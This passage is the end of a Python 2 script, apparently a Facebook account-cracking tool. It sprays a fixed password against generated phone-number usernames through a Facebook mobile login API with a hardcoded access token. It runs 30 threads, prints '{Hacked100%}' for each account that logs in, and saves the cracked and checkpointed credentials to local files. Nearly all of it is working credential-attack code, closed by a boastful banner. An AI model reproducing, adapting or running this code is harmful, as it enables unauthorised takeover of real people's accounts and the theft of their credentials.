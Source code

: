  					                cps.close()
 					                cpb.append(c+user+pass3)
                                                else:
 				                    pass4="banglades"
 				                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
 				                    q = json.load(data)
 				                    if 'access_token' in q:
 				                        print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass4+'\n'+"\n"
 				                        okb = open('save/successfull.txt', 'a')
 				                        okb.write(k+c+user+'-•◈•-'+pass4+'\n')
 				                        okb.close()
 				                        oks.append(c+user+pass4)
 				                    else:
 				                        if 'www.facebook.com' in q['error_msg']:
 					                        print '\033[1;96m[Checkpoint] ' + k + c + user + '  》  ' + pass4+'\n'
 					                        cps = open('save/checkpoint.txt', 'a')
 					                        cps.write(k+c+user+'-•◈•-'+pass4+'\n')
 					                        cps.close()
 					                        cpb.append(c+user+pass4)
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;96m💖━━━━━━━━━━━━💘💘💘(MAFIA-KILLER-Rakib)💘💘💘━━━━━━━━━━━💖" 
	print '[✓] Process Has Been Completed ....'
	print '[✓] Total OK/CP : '+str(len(successfull))+'/'+str(len(checkpoint))
	print('[✓] CP File Has Been Saved : save/checkpoint.txt')
	print"""
(¯`🌹¯)🌷
`*.🍃.*´. 🌸🍃🌸:*¸. • 
¸.•´¸.•*¨) ¸🌹•*¨) 🌸 
🌸(¸.•´🍃(¸.•´ .•´ 🍃¸.🌸
🔮🌷*.*.¸¸¸¸.*.*.¸¸🌷🔮 　　┊　┊　┊
🔮🌷LOVE YOU🌷🔮 
　　┊　┊　┊
　　┊　┊    🔮   　　　
　　┊   🔮
　   🔮
(¯`🌹¯)🌷
`*.🍃.*´. 🌸🍃🌸:*¸. • 
¸.•´¸.•*¨) ¸🌹•*¨) 🌸 
🌸(¸.•´🍃(¸.•´ .•´ .🌸
	"""
	raw_input('\n[Press Enter To Go Back]')
	os.system('python2 hack.py')
		
if __name__ == '__main__':
	menu()
# Mau Ngapain Cuk?
